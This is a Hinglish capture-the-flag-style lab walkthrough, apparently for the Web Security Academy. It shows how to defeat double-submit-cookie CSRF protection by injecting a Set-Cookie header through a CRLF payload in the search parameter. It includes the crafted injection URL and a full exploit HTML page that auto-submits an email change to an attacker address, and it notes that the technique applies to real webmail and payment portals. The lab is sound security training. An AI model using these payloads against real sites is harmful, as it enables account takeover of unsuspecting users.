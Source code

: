 ## 🔥 Lab Ka Root Masla:

Website ne CSRF se bachne ke liye **double-submit cookie** method use kiya hai, jo insecure hota hai agar cookie client-side se hi set ki ja sakti ho. Is case mein hum **search endpoint** ka misuse karenge, jahan se hum **Set-Cookie** header inject kar sakte hain victim ke browser mein.

---

## 🧠 A to Z Lab Ka Solution:

### ✅ Step 1: Login and Capture Email Change Request

* Burp browser open karo aur `wiener:peter` se login karo.
* Go to "My Account" → Change your email (e.g., [test1@evil.com](mailto:test1@evil.com)).
* Burp Proxy → History mein jao, us request ko dhoondo jahan email update hui hai.
* Right-click → Send to Repeater.

### ✅ Step 2: Observe CSRF Token Behavior

* Repeater mein dekho:

  * Body mein `csrf=fake` jaisa kuch ho ga.
  * Cookies mein bhi `csrf=fake` type ka hoga.
* Yani server simply yeh check karta hai:
  **Request Body ka `csrf` == Cookie ka `csrf`**
  ➤ **No session tie, insecure!**

---

### ✅ Step 3: Discover Cookie Injection via Search

* Website par kuch search karo (e.g. `test`).
* Proxy → History mein search request dhoondo.
* Dekho response headers mein: `Set-Cookie: csrf=...` dikha?
* Matlab, hum search endpoint se **cookie inject** kar sakte hain!

---

### ✅ Step 4: Build Malicious URL for Cookie Injection

* Yeh specially crafted URL banaye:

```bash
https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
```

📌 `%0d%0a` means **new line** → isse `Set-Cookie` header inject hota hai.

---

### ✅ Step 5: Create Exploit HTML Page

Burp ka exploit server open karo → New exploit request → Raw mein paste karo:

```html
<html>
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attackeremail@evil.com" />
      <input type="hidden" name="csrf" value="fake" />
    </form>
    <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();" />
  </body>
</html>
```

📌 `csrf=fake` → dono jagah same rakhna (cookie aur form).

---

### ✅ Step 6: Store & Deliver

* Exploit server par HTML save karo.
* Make sure email koi **naya unique** ho (jo pehle kisi ne use na kiya ho).
* "Store" par click karo.
* Phir "Deliver to victim" pe click karo.

---

### 🟢 Lab Solve Ho Jayega!

---

## 💡 Penetration Testing Tip:

**Double-submit CSRF protection** sirf tab secure hoti hai jab:

* Cookies **HttpOnly** hoon
* Session ke saath tightly linked ho

Yahan humne browser se **fake csrf cookie inject** ki and form submit kar diya — real-world mein yeh technique **webmail, payment portals** mein CSRF attacks mein kaam aati hai.

---
